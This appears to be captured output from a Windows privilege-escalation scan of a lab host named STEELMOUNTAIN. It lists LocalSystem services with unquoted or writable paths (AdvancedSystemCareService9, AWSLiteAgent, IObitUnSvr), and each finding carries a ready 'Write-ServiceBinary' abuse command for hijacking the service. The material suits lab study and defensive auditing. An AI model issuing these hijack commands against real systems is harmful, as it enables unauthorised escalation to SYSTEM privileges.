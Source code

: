 ```
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>
CanRestart     : True
Name           : AdvancedSystemCareService9
Check          : Unquoted Service Paths

ServiceName    : AWSLiteAgent
Path           : C:\Program Files\Amazon\XenTools\LiteAgent.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=AppendData/AddSubdirectory}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AWSLiteAgent' -Path <HijackPath>
CanRestart     : False
Name           : AWSLiteAgent
Check          : Unquoted Service Paths

ServiceName    : AWSLiteAgent
Path           : C:\Program Files\Amazon\XenTools\LiteAgent.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=WriteData/AddFile}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AWSLiteAgent' -Path <HijackPath>
CanRestart     : False
Name           : AWSLiteAgent
Check          : Unquoted Service Paths

ServiceName    : IObitUnSvr
Path           : C:\Program Files (x86)\IObit\IObit Uninstaller\IUService.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=AppendData/AddSubdirectory}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'IObitUnSvr' -Path <HijackPath>
CanRestart     : False
Name           : IObitUnSvr
Check          : Unquoted Service Paths

ServiceName    : IObitUnSvr
Path           : C:\Program Files (x86)\IObit\IObit Uninstaller\IUService.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=WriteData/AddFile}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'IObitUnSvr' -Path <HijackPath>
CanRestart     : False
Name           : IObitUnSvr
Check          : Unquoted Service Paths

ServiceName    : IObitUnSvr
Path           : C:\Program Files (x86)\IObit\IObit Uninstaller\IUService.exe
ModifiablePath : @{ModifiablePath=C:\Program Files (x86)\IObit; IdentityReference=STEELMOUNTAIN\bill;
                 Permissions=System.Object[]}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'IObitUnSvr' -Path <HijackPath>
CanRestart     : False
Name           : IObitUnSvr
Check          : Unquoted Service Paths

ServiceName    : IObitUnSvr
Path           : C:\Program Files (x86)\IObit\IObit Uninstaller\IUService.exe
ModifiablePath : @{ModifiablePath=C:\Program Files (x86)\IObit\IObit Uninstaller\IUService.exe;
                 IdentityReference=STEELMOUNTAIN\bill; Permissions=System.Object[]}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'IObitUnSvr' -Path <HijackPath>
```